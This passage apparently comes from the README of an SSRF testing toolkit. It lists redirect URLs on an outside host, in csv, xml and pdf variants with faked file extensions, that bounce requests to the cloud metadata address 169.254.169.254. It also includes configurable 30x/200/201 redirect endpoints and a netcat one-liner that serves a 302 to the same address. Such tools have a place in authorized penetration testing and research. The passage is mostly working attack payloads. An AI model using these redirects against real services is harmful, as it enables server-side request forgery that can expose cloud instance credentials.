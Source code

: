 `https://ssrf.localdomain.pw/csv-with-body-md/301-http-.c.csv`


xml 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-without-body-md/301-http-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body-md/301-http-.x.xml`

pdf 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/pdf-without-body/301-http-169.254.169.254:80-.p.pdf`

`https://ssrf.localdomain.pw/pdf-without-body-md/301-http-.p.pdf`

`https://ssrf.localdomain.pw/pdf-with-body/301-http-169.254.169.254:80-.p.pdf`

`https://ssrf.localdomain.pw/pdf-with-body-md/301-http-.p.pdf`

***

### custom-30x - Custom 30x responses and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-200 - Custom 200 response and Content-Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-201 - Custom 201 response and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### Minimal web server using netcat

`while true ; do nc -l -p 80 -c 'echo -e "HTTP/1.1 302 Found\nContent-Type: application/json\nLocation: http://169.254.169.254/\n{\"a\":\"b\"}"'; done`
